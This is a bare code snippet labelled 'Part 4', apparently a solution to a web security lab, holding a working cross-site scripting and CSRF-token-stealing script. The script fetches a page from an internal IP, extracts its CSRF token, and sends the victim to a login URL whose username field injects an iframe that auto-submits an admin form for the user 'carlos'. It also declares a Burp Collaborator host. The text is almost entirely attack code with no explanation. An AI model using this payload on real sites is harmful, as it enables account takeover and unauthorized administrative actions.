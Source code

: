 Part 4:

```
<script>
var ip = 'http://192.168.0.147:8080'
var collab = 'http://8nwhoydxsfjhb3zzfiluyhkk5bb5zu.burpcollaborator.net'
var xss_payload = ' "><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()"> '
  fetch(ip, {method: 'GET'}) <!-- cannot put no cors -->
    .then(response => response.text())
    .then((text) => {
        login_path = '/login?username=' + encodeURIComponent(xss_payload) + '&password=random&csrf=' + text.match(/name="csrf" value="([^"]*)"/)[1]
        location = ip + login_path 
  })
</script>
```












